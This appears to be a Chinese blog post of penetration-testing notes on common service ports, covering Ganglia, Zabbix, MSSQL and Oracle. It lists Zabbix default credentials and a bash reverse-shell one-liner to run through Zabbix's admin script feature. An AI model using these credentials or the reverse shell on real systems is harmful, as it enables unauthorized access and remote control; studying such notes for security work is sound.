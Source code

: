 title: 常见的端口和对应的服务
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2023-07-12 20:07:00
---
#### web类
**struts2：**
太多，略......

**thinkphp：**
<a href="https://smms.app/image/AtUjGFfCBWR9mxz" target="_blank"><img src="https://s2.loli.net/2023/07/19/AtUjGFfCBWR9mxz.png" ></a>

**jboss：**
<a href="https://smms.app/image/1sElFjNxyCQTUdw" target="_blank"><img src="https://s2.loli.net/2023/07/19/1sElFjNxyCQTUdw.png" ></a>

**ganglia：**
CVE-2007-6465: 多个跨站脚本攻击漏洞
CVE-2012-3448: 未明PHP代码执行漏洞
8649端口未授权访问: 通过http协议获取相关监控的xml信息
nmap扫描脚本  `nmap --script ganglia-info --script-args ganglia-info.timeout=60,ganglia-info.bytes=100000 -p`

**zabbix：**
弱口令/默认账号: 
```
admin:zabbix
Admin:zabbix
guest: 空
```
ave-2016-10134: sql注入
系统命令执行: 管理员登录后Administrator-script-createscript
```
bash -i >& /dev/tcp/ip/端口 0>&1
```


#### 数据库类（扫描弱口令）
**MSSQL**
```

默认端口：1433（Server 数据库服务）、1434（Monitor 数据库监控）
攻击方法：
    爆破：弱口令/使用系统用户
    注入
参考：
    https://www.anquanke.com/post/id/86011
```

**Oracle**
```

默认端口：1521（数据库端口）、1158（Oracle EMCTL端口）、8080（Oracle XDB数据库）、210（Oracle XDB FTP服务）
攻击方法：
    爆破：弱口令
    注入攻击；
    漏洞攻击；
    -参考：
    https://www.leiphone.com/news/201711/JjzXFp46zEPMvJod.html
```
